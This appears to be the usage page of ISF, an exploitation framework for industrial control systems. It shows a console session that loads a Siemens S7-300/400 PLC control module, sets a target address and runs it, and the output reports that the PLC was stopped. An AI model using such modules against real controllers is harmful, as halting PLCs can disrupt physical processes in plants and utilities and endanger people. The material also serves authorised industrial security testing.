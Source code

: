         
                        ICS Exploitation Framework
        
        Note     : ICSSPOLIT is fork from routersploit at
                   https://github.com/reverse-shell/routersploit
        Dev Team : wenzhe zhu(dark-lbp)
        Version  : 0.1.0
        
        Exploits: 2 Scanners: 0 Creds: 13
        
        ICS Exploits:
            PLC: 2          ICS Switch: 0
            Software: 0
        
        isf >

## Exploits
    isf > use exploits/plcs/
    exploits/plcs/siemens/  exploits/plcs/vxworks/
    isf > use exploits/plcs/siemens/s7_300_400_plc_control
    exploits/plcs/siemens/s7_300_400_plc_control
    isf > use exploits/plcs/siemens/s7_300_400_plc_control
    isf (S7-300/400 PLC Control) >
    
You can use the tab key for completion.


## Options
### Display module options:
    isf (S7-300/400 PLC Control) > show options
    
    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target address e.g. 192.168.1.1
       port       102                  Target Port
    
    
    Module options:
    
       Name        Current settings     Description
       ----        ----------------     -----------
       slot        2                    CPU slot number.
       command     1                    Command 0:start plc, 1:stop plc.
    
    
    isf (S7-300/400 PLC Control) >
    
### Set options
    isf (S7-300/400 PLC Control) > set target 192.168.70.210
    [+] {'target': '192.168.70.210'}
    

## Run module
    isf (S7-300/400 PLC Control) > run
    [*] Running module...
    [+] Target is alive
    [*] Sending packet to target
    [*] Stop plc
    isf (S7-300/400 PLC Control) >
    